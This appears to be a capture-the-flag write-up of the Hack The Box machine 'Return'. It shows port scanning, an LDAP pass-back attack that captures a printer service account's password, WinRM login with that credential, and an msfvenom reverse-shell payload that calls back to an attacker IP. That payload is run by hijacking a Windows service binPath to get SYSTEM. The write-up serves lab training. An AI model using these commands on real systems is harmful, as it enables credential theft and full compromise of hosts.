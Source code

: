 # Box: Return
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## PortScanning

command:```sudo nmap -A 10.129.88.241 -p- -v -T4```

```
Nmap scan report for 10.129.88.241
Host is up (0.42s latency).
Not shown: 65458 closed tcp ports (reset), 51 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-14 12:22:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
50865/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/14%OT=53%CT=1%CU=43018%PV=Y%DS=2%DC=T%G=Y%TM=652A84
OS:2C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=101%TI=I%CI=I%II=I%SS=S%TS
OS:=U)SEQ(SP=105%GCD=1%ISR=101%TI=I%CI=RI%II=I%SS=S%TS=U)SEQ(SP=105%GCD=1%I
OS:SR=101%TI=RD%CI=I%II=I%TS=U)SEQ(SP=105%GCD=1%ISR=101%TI=RD%CI=RI%II=I%TS
OS:=U)SEQ(SP=105%GCD=2%ISR=101%TI=RD%CI=I%II=I%TS=U)OPS(O1=M53ANW8NNS%O2=M5
OS:3ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)WIN(W1=FFFF%W
OS:2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M53ANW
OS:8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y
OS:%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR
OS:%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF
OS:=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80
OS:%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-10-14T12:24:21
|_  start_date: N/A
|_clock-skew: 18m33s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   436.16 ms 10.10.16.1
2   231.29 ms 10.129.88.241

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct 14 13:06:04 2023 -- 1 IP address (1 host up) scanned in 2869.49 seconds
```
From our scan we have quite a number of ports opened. We\ll start our enumeration today from port 80


# Enumeration(Port 80)

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/64f03f1e-6136-4c05-afb4-b1a015eae14a)

We get this HTB Printer Admin Panel

Click on "Settings", you'll see this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7d4a38d9-2c47-4c16-9eee-ab20c042f988)

We can perform something called ```LDAP Pass-back``` attack against this printer. This is a common attack against network devices, such as printers. Lets exploit this hehe


# Exploitation

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/909ef243-ec00-408a-96d2-848ec437d8e5)

In this attack we can modify this server address to our IP, then we'll get the printer to connect to us instead, which would disclose the credentials. To do this, let's use a simple Netcat listener to test if we can get the printer to connect to us. Since the default port of LDAP is 389, we can use the following command

command:```nc -lvp 389```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a9a8bd17-12c9-4120-9330-6641225a25d3)

Now, lets go back to the webpage and try to update the settings

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ef37a2ca-dfcd-43bf-a09e-e431cfe2e9a3)

Checking our listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/24c3a85f-51a8-4d3e-b083-86f0db593b77)

We were able to successfully capture the creds hehe😎.

Now lets connect to this using ```evil-winrm```.

command:```evil-winrm -u svc-printer -i 10.129.88.241 -p '1edFg43012!!'```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/83d6542b-65ff-4919-bfe8-18eb19a732ae)

soft!!😂. Lets go ahead to escalate our privileges



# Privilege Escalation

Checking the list of users on the computer

command:```net user svc-printer```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e74cc2e7-6e59-4dd8-ae56-0f32ba3801e8)

Being a member of server operator group is not a vulnerability, but the member of this group has special privileges to make changes in the domain which could lead an attacker to escalate to system privilege.

You can check out this  [blog](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/), it's well explained here.

Lets list services running on this server using the ```services``` command

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/42230f3b-36fa-4587-98d8-5e91abff7390)

We can see list of services are there. Then we noted the service name “VMTools” and service binary path for lateral usage.

Lets generate an exe payload using msfvenom

command:```msfvenom -p windows/x64/shell/reverse_tcp lhost=10.10.16.30 lport=4444 -f exe > bankai.exe```

```
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/return]
└─$ msfvenom -p windows/x64/shell/reverse_tcp lhost=10.10.16.30 lport=4444 -f exe > bankai.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
                                                                                                                      
┌──(bl4ck4non👽bl4ck4non-sec)-[~/Downloads/HTB/return]
└─$ ls -l bankai.exe      
-rw-r--r-- 1 bl4ck4non bl4ck4non 7168 Oct 14 15:03 bankai.exe
```
Lets upload this to the target's machine

command:```upload bankai.exe```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e6ff7717-f152-4c5b-8ff8-1951d013b5fb)

cool cool,

When we start any service then it will execute the binary from its binary path so if we replace the service binary with netcat or reverse shell binary then it will give us a reverse shell as a system user because the service is starting as a system on the compromised host

Now,

commands
```
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\bankai.exe"
sc.exe stop VMTools
sc.exe start VMTools
```
Ensure you set up your netcat listener before starting the service again





































